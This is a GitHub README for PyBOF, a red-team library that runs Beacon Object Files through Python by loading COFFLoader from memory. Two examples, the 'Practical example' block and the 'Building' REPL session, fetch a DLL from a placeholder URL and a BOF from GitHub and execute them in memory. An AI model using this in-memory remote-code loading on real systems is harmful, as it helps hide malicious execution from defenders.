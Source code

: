 # `PyBOF`
## Run Beacon Object files through python

in-memory loading and execution of BOFs

`PyBOF` enables Python3 to load Beacon Object Files via bytes and execute a target BOF function in a Python interpreter

## New in this branch
### Based on the research by tishina, I have integrated pythonmemorymodule (naksyn) for allowing loading of the COFFLoader from memory

## Basic Usage

### The run function has now been wrapped in a class for persisting COFFLoader function references. Because of this it must now be accessed the following way.
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
```

### Once bof.BOF has been initialized it's run function runs exactly the same as the old run function
#### Run a simple BOF with no required arguments
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data)
```

### Pass a raw string argument into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=["foo"], raw=True)
# Raw cannot be used with function kwarg
```

### Pass packed/formatted arguments into BOF
```python
import bof
coffldr = open(r'c:\path\to\COFFLoader.dll', 'rb').read()
runner = bof.BOF(coffldr)
data = open(r'c:\path\to\example.o', 'rb').read()
runner.run(data, args=[r"c:\users"], format="Z")
```

## Practical example of execution
```python
import bof
from urllib.request import urlopen
coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
runner = bof.BOF(coffldr)
data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
runner.run(data, args=[r"c:\users"], format="Z")
```

## Args/Kwargs
There are several args that can be used with run function from PyBOFs bof.BOF class, they are described in more detail below

### data
Mandatory first positional argument which must be a byte object which contains the raw contents of a BOF

### args
Optional keyword arg which is a list of arguments to pass into the target BOF function

### function
Optional keyword arg which is the string formatted name of target function to execute from the supplied BOF, this defaults to `go`

### format (NOTICE - These have recently been updated)
Optional keyword arg is a string, which informs the BOF argument packer of the argument types as they are packed into the buffer. This is similar to the format arg from `struct.pack`. The only valid format options are as follows:\
`i` for integer\
`s` for short\
`z` for string\
`b` for binary\
`Z` for wide

At least one format type must be supplied for each arg in the args list. This keyword arg cannot be used in conjunction with `raw`

### raw
Optional keyword arg which is a boolean that passes args as a space-joined string without packing it instead of attempting to pack formatted args for the BOF function. This keyword arg cannot be used in conjunction with `format`

## Building
Clone this repo

```cmd
git clone https://github.com/rkbennett/pybof.git
```

Place the COFFLoader dll in a location you can access

Change directory to parent of bof directory, import and have fun
```cmd
cd ..\..\
python
>>> import bof
>>> from urllib.request import urlopen
>>> coffldr = urlopen('http://mysite/path/to/COFFLoader.dll').read()
>>> runner = bof.BOF(coffldr)
>>> data = urlopen("https://github.com/trustedsec/CS-Situational-Awareness-BOF/raw/master/SA/dir/dir.x64.o").read()
>>> runner.run(data, args=[r"c:\users"], format="Z")
```

## Gotchas
If a BOF function does not return a value, I raise a warning alerting the user to the fact nothing was returned. I assume this is likely not the intended outcome of an execution, but didn't want to throw hard errors. `If you run a BOF function and receive the no output warning, keep in mind that your args formatting may need defined or may be defined incorrectly` which can cause this issue (specifically using string instead of wide)

## Special Thanks
* [natesubra](https://github.com/natesubra) - For answering my random questions
* [trustedsec](https://github.com/trustedsec) - For [COFFLoader](https://github.com/trustedsec/COFFLoader) (The real MVP)
* [naksyn](https://github.com/naksyn) - For [pythonmemorymodule](https://github.com/naksyn/PythonMemoryModule) (The other MVP)
* [zimnyaa](https://github.com/zimnyaa) - For the initial pythonmemorymodule integration legwork and pythonmemorymodule modifications to allow returning raw funciton addresses, also a great read here: https://tishina.in/execution/python-inmemory-bof
